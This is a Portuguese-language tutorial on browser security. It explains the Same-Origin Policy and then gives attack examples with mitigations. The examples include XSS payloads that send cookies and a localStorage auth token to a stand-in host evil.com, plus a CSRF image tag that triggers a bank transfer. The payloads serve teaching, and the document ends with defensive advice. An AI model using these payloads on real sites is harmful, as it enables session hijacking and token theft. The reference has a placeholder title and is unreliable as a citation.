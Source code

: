 # Segurança no Navegador

Com o advento do conteúdo dinâmico no navegador, a necessidade de segurança dentro do próprio ambiente de navegação aumentou. Em resposta, foi proposto um modelo de segurança do navegador (Horst & Nordhoff, 2008), cujo objetivo é definir regras claras sobre o que scripts e programas em um site podem ou não acessar em outros domínios.

## Política de Mesma Origem

Uma parte fundamental desse modelo é a **Política de Mesma Origem** (Same-Origin Policy), que estabelece que:

> Scripts no contexto de um local **não** estão autorizados a acessar elementos no contexto de outro site.

### O que a Política de Mesma Origem protege

- **Elementos do documento (DOM)**  
- **Cookies**  
- **XMLHttpRequests**  
- **localStorage** do HTML5  

---

**Referência:**  
Horst, H. & Nordhoff, S. (2008). *[título do trabalho, se disponível]*  


---- 


Aqui vão alguns exemplos práticos de como cada um desses vetores pode ser explorado:

---

## 1. Elementos do documento (DOM)

**Ataque: DOM‑based XSS**
Um atacante injeta um script malicioso que manipula diretamente o DOM da página, sem nunca tocar no servidor:

```html
<!-- Página vulnerável:
     <div id="msg"></div>
     <script>
       // Pega o parâmetro “msg” da URL e injeta no innerHTML
       document.getElementById('msg').innerHTML = location.search.slice(1);
     </script>
-->
```

Se o usuário acessar:

```
https://site-vulneravel.com/?<script>fetch('https://evil.com/?c='+document.cookie)</script>
```

O `<script>` será inserido no DOM e executado no contexto da página, permitindo roubo de dados, cookies etc.

---

## 2. Cookies

**Ataque: Roubo de cookies via XSS**
Um script injetado lê `document.cookie` e envia para o servidor do atacante:

```js
// Em um ponto vulnerável da página...
let i = new Image();
i.src = "https://evil.com/steal?c=" + encodeURIComponent(document.cookie);
```

Com isso, o atacante obtém o cookie de sessão do usuário e pode sequestrar a sessão.

**Outra modalidade: Session Fixation**
O atacante faz o usuário entrar com um cookie de sessão conhecido, depois assume esse ID quando o usuário autentica.

---

## 3. XMLHttpRequests

### a) CSRF (Cross‑Site Request Forgery)

O atacante engana o navegador para que ele dispare uma requisição autorizada (com cookies válidos) a um endpoint sensível:

```html
<!-- Página do atacante -->
<img src="https://banco-quero-roubar.com/transfer?to=attacker&amount=1000" />
```

Como o navegador inclui cookies do banco na requisição, a transferência é efetuada sem o usuário perceber.

### b) CORS mal configurado

Se o servidor define:

```
Access‑Control-Allow-Origin: *
```

Qualquer site poderá ler a resposta de um XHR, mesmo que não seja de confiança.

---

## 4. localStorage do HTML5

**Ataque: XSS para ler e exfiltrar localStorage**
Muitas aplicações guardam tokens JWT ou dados sensíveis em `localStorage`. Um XSS simples faz:

```js
fetch('https://evil.com/exfil', {
  method: 'POST',
  body: JSON.stringify({ token: localStorage.getItem('authToken') })
});
```

O atacante pode então usar esse token para se passar pelo usuário em APIs.

---

### Mitigações comuns

* **CSP (Content Security Policy)**: restringe origens de scripts e bloqueia inline‑scripts
* **HttpOnly/Cookie Secure**: impede acesso a `document.cookie`
* **SameSite=strict**: reduz risco de CSRF
* **Sanitização de entradas**: escapa todo conteúdo injetado no DOM
* **CORS restritivo**: só autoriza domínios confiáveis

Com essas proteções bem configuradas, você cobre a maioria dos vetores de ataque acima.
